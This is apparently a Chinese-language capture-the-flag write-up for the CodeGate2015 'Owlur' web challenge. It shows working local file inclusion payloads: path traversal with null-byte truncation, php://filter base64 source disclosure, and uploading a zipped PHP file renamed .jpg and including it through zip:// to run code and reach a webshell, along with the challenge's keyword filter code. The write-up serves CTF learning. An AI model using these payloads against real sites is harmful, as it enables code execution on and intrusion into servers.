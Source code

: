 ```yaml
---
layout: post
title: CodeGate2015 CTF - WEB200
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>


#### Owlur - WEB200

> Description
> 
> http://54.65.205.135/owlur/
> 
> if you use a web scanner, your IP will get banned, no bruteforce required, take it easy.


#### Desc

File upload success (.jpg): [http://54.65.205.135/owlur/index.php?page=view&id=q9DLZgl](http://54.65.205.135/owlur/index.php?page=view&id=q9DLZgl)

view-source: [http://54.65.205.135/owl/duzYZc5.jpg](view-source:http://54.65.205.135/owl/duzYZc5.jpg)

#### LFI

 - [http://54.65.205.135/owlur/index.php?page=view](http://54.65.205.135/owlur/index.php?page=view)
 - [http://54.65.205.135/owlur/index.php?page=index](http://54.65.205.135/owlur/index.php?page=inedx)
 
我们猜测 ```page``` 参数可包含文件，但当我们想要包含刚刚上传的恶意图片时，却发现 ```page``` 过滤了 ```http```, ```..```关键字，导致我们无法跳到/owl/目录下进行文件包含。比如我们这样做：

 - [http://54.65.205.135/owlur/index.php?page=/../../../../owl/duzYZc5.jpg%00](http://54.65.205.135/owlur/index.php?page=/../../../../owl/duzYZc5.jpg%00)
 
页面就会返回给我们：

                     / /****-- * *\
          //(((:<<<</:*********3\X*\((<
         /XX/CXC&CGG//**/--///X*V\**..g&
    (/VCC3gg0........*//X//(///V*C\*..888gg8g&3C<
    (3&gG&...........*..XXX/(((/*.\*.......G/08883X<`
    /(<C8 ...........*.XXXX////</..*...............3C^
       V/<^<(X88&V//((<<<<((<^<**...............X&&C
              `:/CCV/(((<<(/VVV/*..............(/C&/
               << ^^(/V33VX/VC&X*VC....:<<~<<<((X  `
               V/(/< ^ ^^:/X/((<<^^---V:~~<<(
                  3&                  .^-/
                  C  /\       /\        |
                 /C  \/       \/       //
     PLZ STOP     3                    |\
       HACKING    C                   /5*
                  V     /-----\       /
                  CG  |         |  <///<
                  VGV |         | ^(/X<^
                   &&<  \-----/  .((<(^
                    83(        .<(~`<<
                     8X`     .<<^` `((^
                    B@@C<.`^^`     ^(CG&C(<.``
         CG8B$@@@@@@@@@$(          ^^(0@@@@$83X<`
       B@@@@@@@@@@@@@@@@@8/       `<C$@@@@@@@@@@$&<
      @@@@@@@@@@@@@@@$$$@@@$$0888B@@@@@@@@@@@@@@@@@V`
    
Please stop hacking :(

但是我们可以通过这种方式来尝试读取 ```index.php```, ```view.php```, ```upload.php```的源代码：

 - http://54.65.205.135/owlur/index.php?page=php://filter/read=convert.base64-encode/resource=view
 
##### 源码分析

![http://ww3.sinaimg.cn/large/c334041bgw1eq6huu93caj20nn05i74h.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eq6huu93caj20nn05i74h.jpg)

    ➜  /tmp  echo -n "PD9waHAKJHBpYyA9ICRfUkVRVUVTVFsnaWQnXTsKCmlmKCRwaWMgPT0gIiIgfHwgJHBpYyA9PSAicmFuZG9tIikKewokcGljbmFtZSA9ICJwcmVsb2FkZWQtb3dscy8iIC4gcmFuZCgxLDE0KSAuICIuanBnIjsKfQoKZWxzZSAkcGljbmFtZSA9ICIvb3dsLyIgLiAkcGljIC4gIi5qcGciOwoKCgplY2hvICc8aW1nIHNyYz0iJyAuICRwaWNuYW1lIC4gJyI+JzsKCj8+Cg==" | base64 -D
    <?php
    $pic = $_REQUEST['id'];
    if($pic == "" || $pic == "random")
    {
    $picname = "preloaded-owls/" . rand(1,14) . ".jpg";
    }
    else $picname = "/owl/" . $pic . ".jpg";
    echo '<img src="' . $picname . '">';
    ?>
    
##### Upload.php (部分)

[http://54.65.205.135/owlur/index.php?page=php://filter/read=convert.base64-encode/resource=upload](http://54.65.205.135/owlur/index.php?page=php://filter/read=convert.base64-encode/resource=upload)

    $target_dir = "/var/www/owlur/owlur-upload-zzzzzz/";
    $target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
    $uploadOk = 0;
    $imageFileType = pathinfo($target_file,PATHINFO_EXTENSION);
    $fsize = $_FILES['fileToUpload']['size'];
    $newid = RandomString();
    $newname = $newid . ".jpg";

这里有个有趣的变量 ```$target_dir```，长时候发现图片在 /owl/ 目录及 /owlur/owlur-upload-zzzzzz/ 目录均可访问，所以我们可以不用考虑 .. 的跨路径问题了；）

##### index.php (部分)

    if(strstr($p,"..") !== FALSE)
    die("<pre>$haq</pre>");

    if(stristr($p,"http") !== FALSE)
    die("<pre>$haq</pre>");

    if(stristr($p,"ftp") !== FALSE)
    die("<pre>$haq</pre>");

    if(strlen($p) >= 60)
    die("<pre>string > 60
    $haq</pre>");
    
这里可以发现对 ```page``` 参数进行了三个关键字的过滤，以及长度的过滤，通过上面发现的 /owlur-upload-zzzzzz/ 路径我们可直接绕过长度的限制，但是现在又面临另外一个问题，截断。

使用 ```%00```, ```////////////////////////////////```, ```.......................``` 等截断方法均失败，最后试了下 zip 协议截断终于成功：

1. 新建 test.php 里面编写 php 代码；
2. 将 test.php 压缩为 test.zip 后把 zip 的名字改成 test.jpg；
3. 上传 .jpg 上传，然后包含；

![http://ww1.sinaimg.cn/large/c334041bgw1eq6im8fhpkj20kt06y0u4.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eq6im8fhpkj20kt06y0u4.jpg)

phpinfo: [http://54.65.205.135/owlur/index.php?page=zip://owlur-upload-zzzzzz/ITbmhwn.jpg%23test](http://54.65.205.135/owlur/index.php?page=zip://owlur-upload-zzzzzz/ITbmhwn.jpg%23test)

![http://ww2.sinaimg.cn/large/c334041bgw1eq6iqq1zgaj20kw08mmy6.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eq6iqq1zgaj20kw08mmy6.jpg)

最后我们连接 ```webshell``` 后，发现 flag 静静的躺在根目录下：

![http://ww3.sinaimg.cn/large/c334041bgw1eq6irjcxrwj20m2056t95.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eq6irjcxrwj20m2056t95.jpg)
